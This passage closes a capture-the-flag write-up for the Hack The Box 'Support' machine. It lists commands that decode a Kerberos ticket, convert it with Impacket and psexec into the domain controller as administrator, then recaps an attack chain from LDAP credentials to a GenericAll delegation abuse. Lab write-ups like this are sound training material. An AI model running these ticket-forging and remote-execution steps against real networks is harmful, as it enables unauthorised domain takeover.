 - Copy this base64 ticket and convert that

```bash
base64 -d ticket.b64 > ticket.kirbi
# This command will convert the base64 Ticket.
```

Convert the kirbi to ccache which we can use to access machines.
- Here we are using a tool named `ticketConverter.py` from Impacket to convert the ticket.

```bash
python3 ticketConverter.py ticket.kirib ticket.ccache

# Exporting the ticket to the Environment Variable so we don't have to run everytime we access the machine
export KRB5CCNAME=ticket.ccache 
```

After that we can psexc to the DC

```bash
psexec.py -k -no-pass support.htb/administrator@dc.support.htb

# If you have issue with clock skew time we can sync the time with DC using the faketime command
faketime "$(ntpdate -q 10.10.11.174 | cut -d ' ' -f 1,2 )" \psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```

![Psexec](https://c00lrabbit.github.io/assets/Images/Support/psexec.png)

- We got access to the machine as NT-Authority user so we have access to the DC.


# Conclusion
- Overall this is a Nice Active Directory box which gives knowlegde in analysing a `exe`. Initial Hold from the creds found in the LDAP request.
- After LDAP dump we get the creds for `Support` user using that we got the Shell.
- After enumerating the domain using bloodhound we found the `SHARED SUPPORT ACCOUNTS` has generic ALL to the DC, since `support` is the member of `SHARED SUPPORT ACCOUNTS`.
- Using this we can create a machine and Authenticate to the DC.

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/O4O31I0TAI)
